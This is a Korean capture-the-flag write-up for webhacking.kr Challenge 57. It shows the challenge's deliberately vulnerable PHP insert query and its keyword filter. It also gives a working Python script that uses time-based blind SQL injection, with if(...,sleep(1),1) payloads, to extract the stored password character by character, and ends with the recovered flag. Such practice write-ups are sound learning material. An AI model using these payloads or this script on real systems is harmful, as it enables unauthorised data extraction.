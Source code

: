 # blind SQL injection

message와 secret의 값을 받는 인풋영역이 있다. 

소스는 아래와 같다.

```php+HTML
<?php
  include "../../config.php";
  include "./flag.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 57</title>
</head>
<body>
<?php
  $db = dbconnect();
  if($_GET['msg'] && isset($_GET['se'])){
    $_GET['msg'] = addslashes($_GET['msg']);
    $_GET['se'] = addslashes($_GET['se']);
    if(preg_match("/select|and|or|not|&|\||benchmark/i",$_GET['se'])) exit("Access Denied");
    mysqli_query($db,"insert into chall57(id,msg,pw,op) values('{$_SESSION['id']}','{$_GET['msg']}','{$flag}',{$_GET['se']})");
    echo "Done<br><br>";
    if(rand(0,100) == 1) mysqli_query($db,"delete from chall57");
  }
?>
<form method=get action=index.php>
<table border=0>
<tr><td>message</td><td><input name=msg size=50 maxlength=50></td></tr>
<tr><td>secret</td><td><input type=radio name=se value=1 checked>yes<br><br><input type=radio name=se value=0>no</td></tr>
<tr><td colspan=2 align=center><input type=submit></td></tr>
</table>
</form>
<br><br><a href=./?view_source=1>view-source</a>
</body>
</html>
```

SQL injection 문제라는 것을 알 수 있다. 
필터링에 benchmark 함수가 있는데 시간을 측정하는 거다. 
즉, blind SQL injection이고 시간차를 이용해서 pw값을 알아낼 수 있음을 유추할 수 있다. 

아래와 같은 코드를 작성해서 pw를 알아낸다. 

```python
import requests
import time

cookies={'PHPSESSID':'1uv1k3nmdjkp58kt643v5al23t'}
url = "https://webhacking.kr/challenge/web-34/index.php"

pw_length = 0
pw = []

for i in range(40):
    query = f"?msg=test&se=if(length(pw)={i},sleep(1),1)"
    itime = time.time()
    res = requests.get(url+query, cookies=cookies)
    restime = time.time() - itime
    if restime > 1:
        pw_length = i
        break
    
print(pw_length)

for i in range(pw_length):
    for j in range(33, 127):
        query = f"?msg=test&se=if(ascii(substr(pw,{str(i+1)},1))={str(j)},sleep(1),1)"
        itime = time.time()
        res = requests.get(url+query, cookies=cookies)
        restime = time.time() - itime
        if restime > 1:
            pw.append(chr(j))
            print(''.join(pw))
            break

print(''.join(pw))

# >> FLAG{y2u.be/kmPgjr0EL64}
```



> blind SQL injection에서 직접코드로 시간차를 구해서 값을 알아낸 것은 처음이었다. 
>
> SQL의 if문에는 =으로 표현하는 것, ascii함수 등. 배운것이 많았다.

